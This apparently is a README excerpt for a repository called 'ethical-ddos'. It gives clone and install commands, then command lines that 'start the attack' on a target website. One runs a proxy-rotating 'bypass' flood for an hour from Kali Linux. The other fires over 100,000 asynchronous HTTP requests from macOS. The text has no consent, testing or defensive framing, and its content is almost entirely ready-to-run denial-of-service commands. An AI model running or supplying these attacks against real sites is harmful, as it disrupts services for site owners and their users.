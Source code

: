 


**Clone and Install Script**

```shell script
[git clone https://github.com/gamal-ahmed/ethical-ddos.git](https://github.com/gamal-ahmed/ethical-ddos.git)
cd ethical-ddos
pip install -r requirements.txt
```
**To start the attack from Linux-Kali**
The bypass
```shell script
cd ethical-ddos
python3 start.py bypass website 1 101 sockws5.txt 10970 3600 true
```
**Most Effecient to attack from MAC-OS**
```
--debug: for more info and details about the attack
```
```shell script
cd ethical-ddos
python3 asyncio_http.py --urls  website  --total_requests 103002 --debug
```

---

